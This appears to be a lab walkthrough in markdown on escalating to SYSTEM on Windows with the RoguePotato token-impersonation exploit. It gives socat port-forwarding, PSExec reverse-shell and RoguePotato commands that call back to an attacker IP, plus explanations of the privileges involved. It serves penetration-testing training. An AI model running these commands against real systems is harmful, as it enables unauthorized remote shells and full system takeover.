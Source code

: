 # 🐾 16. Token Impersonation - Rogue Potato

## 📜 Task Description
In this task, we will use the `Rogue Potato` tool to gain access to the system with `SYSTEM` privileges through token impersonation. We will set up port forwarding on Kali, use `PSExec64.exe` to execute a reverse shell with the "local service" account privileges, and then run the `Rogue Potato` exploit to escalate to `SYSTEM` privileges.

---

## 🔍 Step 1: Set up port forwarding with socat
On Kali, set up port forwarding from port 135 to port 9999 on Windows using `socat`:

'`sudo socat tcp-listen:135,reuseaddr,fork tcp:10.10.1.124:9999`'

### 📋 Expected Output
- Ensure that port forwarding is set up correctly and the listener on Kali is ready to accept connections.

---

## 🔑 Step 2: Simulate login with "local service" account
Start the listener on Kali. Then, simulating an administrator login, open a command prompt with administrator rights (right-click -> "Run as administrator") and use `PSExec64.exe` to launch `reverse.exe` with "local service" account privileges:

'`C:\PrivEsc\PSExec64.exe -i -u "nt authority\local service" C:\PrivEsc\reverse.exe`'

### 📋 Expected Output
- Ensure that the reverse shell is running with "local service" account privileges and is connected to the listener on Kali.
![image](https://github.com/user-attachments/assets/c62a83cd-ed4a-4fe6-aa86-7ae8e24d4731)

---

## 📝 Step 3: Run the RoguePotato exploit
Now, in the reverse shell running as "local service", run the `RoguePotato` exploit to get a second reverse shell with `SYSTEM` privileges:

'`C:\PrivEsc\RoguePotato.exe -r 10.23.0.73 -e "C:\PrivEsc\reverse.exe" -l 9999`'

### 📋 Expected Output
- Ensure that the exploit is successfully executed and you receive a second reverse shell with `SYSTEM` privileges on Kali.
![image](https://github.com/user-attachments/assets/79b2df6c-2308-418e-a66d-08b7ac0ec96e)

---

## 🎉 Congratulations!
You have successfully used the `Rogue Potato` exploit to gain `SYSTEM` privileges through token impersonation! 🎊

---

## 📌 Notes
- Be cautious when using the knowledge gained and always act within the boundaries of authorized penetration testing.

---

## 📌 Information about the answer
### 1. **SeImpersonatePrivilege**:
This privilege allows a user to "impersonate" another user. This is a crucial element in the token exploitation process. When a user has this privilege, they can seize or "intercept" the tokens of other users or service accounts, which is necessary for exploiting vulnerabilities like `RoguePotato`. This allows an attacker to execute commands with the privileges of another user, such as the `LOCAL SERVICE` account.

### 2. **SeAssignPrimaryTokenPrivilege**:
This privilege allows a user to assign a primary security token to other processes. When a user has this privilege, they can modify the security tokens of processes, granting the ability to escalate privileges. In the context of `RoguePotato`, this privilege is used to gain access to higher privileges, such as `SYSTEM`, by allowing the attacker to run processes under that account.

### How this works in `RoguePotato`:
- **SeImpersonatePrivilege** allows the attacker to "intercept" the `LOCAL SERVICE` token and execute commands under this account.
- **SeAssignPrimaryTokenPrivilege** allows the attacker to assign a `SYSTEM` security token to further escalate privileges and carry out attacks under that account.

It is the combination of these two privileges that enables the attacker to execute the exploit and gain `SYSTEM` privileges.
